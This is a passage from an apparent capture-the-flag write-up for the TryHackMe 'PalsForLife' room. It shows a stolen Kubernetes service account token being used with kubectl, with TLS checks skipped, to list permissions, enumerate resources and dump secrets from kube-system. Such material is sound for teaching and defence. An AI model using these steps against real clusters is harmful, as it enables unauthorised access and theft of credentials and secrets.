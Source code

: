 ```
bash-4.4$ cat token
{Redacted_Token}
```

Armed with this token, we can use `kutectl` to interact with the machine's kubernetes.

```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# kubectl --server https://$RHOSTS:6443 --token {Redacted_Token} --insecure-skip-tls-verify auth can-i --list
Resources   Non-Resource URLs   Resource Names   Verbs
*.*         []                  []               [*]
            [*]                 []               [*]
```

We can now enumerate kubernetes!

**Get Supported Resources:**
```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# kubectl --server https://$RHOSTS:6443 --token {Redacted_Token} --insecure-skip-tls-verify api-resources --namespaced=true 
NAME                        SHORTNAMES   APIVERSION                     NAMESPACED   KIND
[...]
secrets                                  v1                             true         Secret
[...]
```

The `secrets` resource looks interesting.

```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# kubectl --server https://$RHOSTS:6443 --token {Redacted_Token} --insecure-skip-tls-verify get secrets --all-namespaces  
NAMESPACE         NAME                                                 TYPE                                  DATA   AGE
[...]
kube-system       flag3                                                Opaque                                1      459d
```

Found `flag3`! Let's extract it!

**flag3.txt:**
```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# kubectl --server https://$RHOSTS:6443 --token {Redacted_Token} --insecure-skip-tls-verify get secrets flag3 -n kube-system -o yaml
apiVersion: v1
data:
  flag3.txt: {Redacted}
kind: Secret
metadata:
  annotations:
    kubectl.kubernetes.io/last-applied-configuration: |
      {"apiVersion":"v1","kind":"Secret","metadata":{"annotations":{},"name":"flag3","namespace":"kube-system"},"stringData":{"flag3.txt":"flag{Redacted}"},"type":"Opaque"}
```
